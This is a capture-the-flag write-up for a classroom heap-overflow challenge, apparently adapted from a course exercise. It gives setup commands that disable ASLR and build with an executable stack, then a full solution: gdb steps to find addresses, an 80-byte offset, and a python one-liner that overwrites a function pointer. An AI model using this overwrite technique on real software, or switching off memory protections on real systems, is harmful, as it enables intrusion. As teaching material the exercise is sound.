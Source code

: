 This problem is based on the example found [here](https://samsclass.info/127/proj/p7-heap0.htm).

# Setup
Tested on Ubuntu 18.04.

Compile binary (or use the one in this folder):
`gcc source.c -w -g -no-pie -z execstack -o binary -m32`

Disable ASLR on server:
```
# disable in current session
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

# make change permanent (across reboots)
echo "kernel.randomize_va_space = 0" > /etc/sysctl.d/01-disable-aslr.conf
```

Add `flag.txt` file containing the flag in the same folder where the program will be run.

# Description
We've come across a service written located at `<ip> <port>` and would like to force it to 
print out the flag. We've uncovered the [binary](https://link) and the [source code](https://link), 
and we've noticed that it takes in input from stdin without checking the length and then calls 
a function in the next line. Can you come up with an input that will force the program to print the flag?

# Hints

## Name of Vuln
Heap overflow, or more specifically a Buffer Overflow that occurs on the Heap.

## Where
The program receives stdin on line 36, stores it in a variable, and then calls a function (stored next to the variable) in the next line.

## Vague solution strategy
Since the variable storing input from stdin is located next to the function on the heap, you can overwrite the address of the function that is called by passing a carefully crafted input through stdin.

## First steps to the solution
In `gdb`, use `disas` to find the addresses of `noflag` and `flag`. You can find the heap using `info proc map` and inspect it to see where input is stored in it and how far it's stored away from the address of `noflag`. You can also investigate starting at the address provided to you by the program in line 34.

# Solution
Use `gdb` to find the address of `noflag`.

```
disas noflag
```

In our case it's 0x08048511.

Now try running the program with an input to investigate the heap.
```
b 38          ; add a breakpoint before the function call
run           ; run the program with an input (enter AAAA when it prompts for input)
info proc map

```
Find the heap in the resulting list and the corresponding start address (with this binary, it's 0x804b000). Enter `x/120x 0x804b000` to inspect the heap. We can see that the input we entered (stored in hex as 0x41414141) is located at the address 0x804b160; and shortly after it is the address of `noflag` that we found earlier located at heap addres 0x804b1b0. That is the address we will need to overwrite with the address of `flag`. We can see that the address of `noflag` is located on the heap 80 bytes after the input; this is our offset.

Now we need to find the address to inject. Find the address of `flag` by running `disas flag` in `gdb` (here, it's 0x080484e6). 

We can now craft the attack using a simple python input:
```
python2 -c "print 'A'*80 + '\xe6\x84\x04\x08'" | ./binary
```
This payload should work on both the local and remote copies of the program if properly configured.
